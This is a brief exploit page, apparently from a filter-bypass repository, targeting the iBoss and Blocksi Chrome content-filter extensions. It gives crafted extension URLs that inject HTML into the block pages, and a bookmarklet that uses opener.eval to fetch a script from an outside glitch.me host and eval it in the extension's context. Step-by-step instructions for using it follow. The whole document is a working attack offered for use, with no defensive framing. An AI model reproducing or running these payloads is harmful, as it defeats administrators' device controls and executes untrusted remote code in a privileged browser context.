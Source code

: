 ```yaml
---
title: iboss-and-blocksi-uboss
---
```


-e 
This exploit is only usable on iBoss (but it works for Blocksi too).
This uses Point-Blank!

IBoss extension:
chrome-extension://kmffehbidlalibfeklaefnckpidbodff/restricted.html?re=1&bc=%3Ca+href=%22about:blank%22%20rel=%22opener%22%20target=%22_blank%22%3EThe%20Blue%20Hat%20Crew%20is%20the%20best!%3C/a%3E

Blocksi extension:
chrome-extension://ghlpmldmjjhmdgmneoaibbegkjjbonbk/pages/blockPage.html?blockurl={%22hostname%22:%22%3Ca%20href=%27//%27%20rel=%27opener%27%20target=%27_blank%27%3ETheBlueHatCrewIsTheBest%3C/a%3E%22}

Javascript:
javascript:opener.eval(`fetch("https://rounded-boiling-flax.glitch.me/uboss.js").then(data=>{data.text().then(e=>{eval(e)})})`) && close();

Instructions:
Step 1 - Go to the website that matches the extension you have.
Step 2 - Bookmark the javascript then run it on that extension page.
Step 3 - Follow the instructions.

Credits:
https://github.com/3kh0/ext-remover
Aka-but-nice
Bypassi
